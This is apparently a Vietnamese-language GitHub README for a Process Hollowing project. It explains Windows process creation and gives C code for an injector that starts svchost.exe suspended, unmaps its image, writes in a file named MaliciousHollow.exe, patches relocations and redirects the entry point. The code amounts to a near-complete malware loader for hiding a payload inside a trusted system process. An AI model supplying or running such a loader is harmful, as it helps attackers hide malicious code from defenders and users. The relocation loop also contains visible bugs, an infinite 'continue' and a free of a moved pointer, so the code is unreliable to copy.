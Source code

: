 # ProcHollow
Repository này thực hiện xây dựng một chương trình tiến hành kỹ thuật Process Hollowing trên tiến trình svchost.exe.
# Một số kiến thức
Tham khảo từ https://hackmd.io/@Wh04m1/Sk4ZLgGc6

Khi tiến hành tạo một process, Kernel mở file thực thi và kiểm tra -> File PE hợp lệ thì kernel tạo 1 kernel process object và 1 kernel thread object đại diện cho process và thread mới -> kernel ánh xạ image và NTDLL.DLL vào không gian bộ nhớ của tiến trình
-> thông báo cho tiến trình quản lý csrss.exe về process mới được tạo.

Tới đây, một tiến trình được kernel coi là khởi tạo thành công. Tiếp theo là quá trình khởi tạo context bên trong process.
Đối tượng quản lý process ở không gian người dùng là Process Environment Block và Thread Environment Block được khởi tạo -> Khởi tạo các thuộc tính khác, như heap, thread pool -> Tải các DLL cần thiết -> Khởi chạy tại entry point.

Nếu sử dụng API CreateProcess() với cờ CREATE_SUSPENDED, process mới được tạo sẽ ở trạng thái ngưng và chỉ có thể tiếp tục bằng API ResumeThread(). Khi được tạo ở trạng thái này, process sẽ được khởi tạo đến bước tạo PEB và TEB, còn các quá trình
tạo heap, tải DLL, chạy tại entry point vẫn chưa được thực hiện. Kỹ thuật Process Hollowing sẽ lợi dụng điều này: tại một process bị suspended, xóa bỏ image gốc được nạp ban đầu, thay thế bằng image độc hại, thiết lập các context của image cho phù hợp và khiến process
chạy image độc hại thay vì chương trình ban đầu.

# Các bước thực hiện
Tại phần mềm injector, trước hết cần định nghĩa một số function và cấu trúc quan trọng cần dùng
```C
typedef NTSTATUS(NTAPI* pfnNtUnmapViewOfSection)(HANDLE ProcessHandle, PVOID BaseAddress);
typedef NTSTATUS(NTAPI* pfnNtQueryInformationProcess)(HANDLE ProcessHandle, PROCESSINFOCLASS ProcInfoClass,
	PVOID ProcInfor, ULONG ProcInfoLen, PULONG ReturnLen);
HMODULE hNTDLL = GetModuleHandleA("NTDLL.DLL");	// Mo NTDLL
// Lay dia chi ham NtUnmapViewOfSection
pfnNtUnmapViewOfSection pNtUnmapViewOfSection = (pfnNtUnmapViewOfSection)GetProcAddress(hNTDLL, "NtUnmapViewOfSection");
pfnNtQueryInformationProcess pNtQueryInformationProcess = (pfnNtQueryInformationProcess)GetProcAddress(hNTDLL, "NtQueryInformationProcess");
```
NtQueryInformationProcess là API dùng để lấy thông tin của Process, NtUnmapViewOfSection là API dùng để unmap vùng nhớ đã được cấp phát. Hai Native API này của Windows, được định nghĩa trong thư viện NTDLL.DLL
nhưng chưa được khai báo sẵn trong Windows SDK nên cần khai báo con trỏ hàm cho 2 API này để gán vào địa chỉ hàm đọc từ NTDLL ra.

Tiếp theo là định nghĩa một số cấu trúc struct chưa được định nghĩa đầy đủ là PEB_LDR_DATA, PEB_FREE_BLOCK, _UNICODE_STR, PEB, IMAGE_RELOC
## 1. Tạo mới process
Tạo mới process với API CreateProcess() trong đó cần truyền vào đường dẫn của tiến trình nạn nhân, cờ CREATE_SUSPENDED và hai struct STARTUPINFO + PROCESS_INFORMATION. STARTUPINFO là một cấu trúc dùng để chỉ định các thuộc tính khởi tạo của một tiến trình
gồm cách cửa sổ tiến trình hiển thị, giao diện và môi trường chạy. 
```C
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION;

```
PROCESS_INFORMATION là cấu trúc chứa thông tin về tiến trình và luồng chính được tạo ra, nhận lại thông tin về tiến trình: handle Process và Thread, ProcessId, ThreadId.
```C
STARTUPINFO si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
ZeroMemory(&pi, sizeof(pi));
WCHAR victim[] = L"C:\\Windows\\System32\\svchost.exe";
if (!CreateProcess(NULL,    // No module name
    victim,                // CommandLine chua duong dan tien trinh duoc thuc thi
    NULL,                   // Process handle khong duoc ke thua
    NULL,                   // Thread handle khong duoc ke thua
    FALSE,                  // Handle khong duoc ke thua
    CREATE_SUSPENDED,       // creation flag == suspend
    NULL,                   // Su dung parent's environment block
    NULL,                   // Su dung start directiory cua parent
    &si,                    // pointer toi STARTUPINFO
    &pi                     // pointer toi PROCESS_INFORMATION
))
{
    std::cout << "Create process fail." << GetLastError() << std::endl;
    return 1;
}
```
Sau khi tạo tiến trình bị suspended, đọc thông tin của qua NtQueryInformationProcess, sử dụng struct PROCESS_BASIC_INFORMATION
```C
typedef struct _PROCESS_BASIC_INFORMATION {
    PVOID Reserved1;
    PPEB  PebBaseAddress;
    PVOID Reserved2[2];
    ULONG_PTR UniqueProcessId;
    ULONG_PTR InheritedFromUniqueProcessId;
} PROCESS_BASIC_INFORMATION;
```
Sử dụng ReadProcessMemory để đọc thông tin tại địa chỉ PebBaseAddress vào một biến PEB. Lấy được PEB.lpImageBaseAddress và Base Image Address của tiến trình.
Sử dụng NtUnmapViewOfSection để unmap vùng nhớ địa chỉ lpImageBaseAddress.

## 2. Tải image mới vào vùng nhớ đã hollowing
Mở và đọc file thực thi của tiến trình độc hại.
```C
WCHAR imagePath[] = L"..\\MaliciousHollow.exe";
HANDLE hFile = CreateFileW(imagePath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL); // mo file
DWORD rawImageSize = GetFileSize(hFile, NULL);	// lay kich thuoc file
LPVOID buffer = VirtualAlloc(NULL, rawImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
ReadFile(hFile, buffer, rawImageSize, NULL, NULL); // doc file, ghi vao buffer
CloseHandle(hFile);
```
Sau đó, cấp phát vùng nhớ tại chính vị trí đã hollowing, với kích thước là kích thước image tiến trình độc hại
```C
PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((ULONG_PTR)buffer + ((PIMAGE_DOS_HEADER)buffer)->e_lfanew);
LPVOID imageBase = VirtualAllocEx(pi.hProcess, peb.lpImageBaseAddress, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
Ta sẽ copy header và các section vào vùng nhớ này. Theo Copilot giải thích, một số chương trình như SVCHOST.EXE có cơ chế kiểm tra nội bộ PEB->ImageBaseAddress nên cần phải cập nhật lại header của image giá trị ImageBase mới giống với PEB
của tiến trình SVCHOST.EXE rồi mới copy header vào vùng nhớ.
```C
ULONG_PTR delta = (ULONG_PTR)imageBase - ntHeader->OptionalHeader.ImageBase;
ntHeader->OptionalHeader.ImageBase = (ULONG_PTR)imageBase;
ULONG_PTR uValueA = ntHeader->OptionalHeader.SizeOfHeaders;
// copy header
WriteProcessMemory(pi.hProcess, imageBase, buffer, uValueA, NULL);
// copy section
uValueA = (ULONG_PTR)ntHeader + sizeof(IMAGE_NT_HEADERS);
ULONG_PTR uValueB = ntHeader->FileHeader.NumberOfSections;
while (uValueB)
{
	ULONG_PTR Src = (ULONG_PTR)buffer + ((PIMAGE_SECTION_HEADER)uValueA)->PointerToRawData;
	ULONG_PTR Des = (ULONG_PTR)imageBase + ((PIMAGE_SECTION_HEADER)uValueA)->VirtualAddress;
	WriteProcessMemory(pi.hProcess, (LPVOID)Des, (LPVOID)Src, (((PIMAGE_SECTION_HEADER)uValueA)->SizeOfRawData), NULL);
	// to next section
	uValueA += sizeof(IMAGE_SECTION_HEADER);
	uValueB--;
}
```
Trong quá trình sao chép image này, chúng ra sẽ tiến hành cả xử lý Relocation. Lưu ý, khác với Reflective DLL injection, nơi mà ReflectiveLoader thực thi là trong nội bộ tiến trình nạn nhân nên nó có thể truy cập trực tiếp vùng nhớ Relocation qua con trỏ.
Ở đây, injector đóng vai trò là một tiến trình bên ngoài tiến trình SVCHOST.EXE nên không thể truy cập trực tiếp vùng nhớ đã ghi vào trong SVCHOST.EXE. Cần phải dùng ReadProcessMemory đọc Reloc Table, sau đóc duyệt qua Reloc Table.
Với mỗi entry, sử dụng ReadProcessMemory để lấy ra giá trị Reloc, cộng delta ImageBase và ghi lại qua WriteProcessMemory.
```C
PIMAGE_DATA_DIRECTORY RelocDir = &(ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC]);

if (delta)
{
	if (RelocDir->Size)
	{
		uValueA = (ULONG_PTR)imageBase + RelocDir->VirtualAddress; // dia chi cua reloc table trong bo nho
		LPVOID RelocBuffer = VirtualAlloc(NULL, RelocDir->Size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
		ReadProcessMemory(pi.hProcess, (LPVOID)uValueA, RelocBuffer, RelocDir->Size, NULL);
		// Image dang nam tren vung nho nam ngoai pham vi truy cap truc tiep cua con tro thuoc ProHollow, can Read, Write Process
		while (((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock)
		{
			// Lay dia chi page tuong ung voi relocation block nay
			uValueB = (ULONG_PTR)imageBase + ((PIMAGE_BASE_RELOCATION)RelocBuffer)->VirtualAddress;
			ULONG_PTR numberEntry = (((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(IMAGE_RELOC);
			PIMAGE_RELOC pEntry = (PIMAGE_RELOC)((ULONG_PTR)RelocBuffer + sizeof(IMAGE_BASE_RELOCATION));// Dang o day
			while (numberEntry)
			{

				if (pEntry->type == 0)
					continue;
				ULONG_PTR relocPos = uValueB + pEntry->offset;
				ULONG_PTR relocPosData = 0;
				BOOL c =ReadProcessMemory(pi.hProcess, (LPVOID)relocPos, &relocPosData, sizeof(relocPosData), NULL);
				relocPosData += delta;
				BOOL d = WriteProcessMemory(pi.hProcess, (LPVOID)relocPos, &relocPosData, sizeof(relocPosData), NULL);
				// next
				pEntry++;
				numberEntry--;
			}
			RelocBuffer = (LPVOID)((ULONG_PTR)RelocBuffer + ((PIMAGE_BASE_RELOCATION)RelocBuffer)->SizeOfBlock);
		}

		VirtualFree(RelocBuffer, 0, MEM_RELEASE);
	}
}
```
## 3. Cập nhật giá trị entry point cho tiến trình SVCHOST.EXE
```C
CONTEXT context = { 0 };
context.ContextFlags = CONTEXT_FULL;
GetThreadContext(pi.hThread, &context);
context.Rcx = (ULONG_PTR)imageBase + ntHeader->OptionalHeader.AddressOfEntryPoint;
SetThreadContext(pi.hThread, &context);
```
## 4. Gọi ResumeThread
```C
ResumeThread(pi.hThread);
```
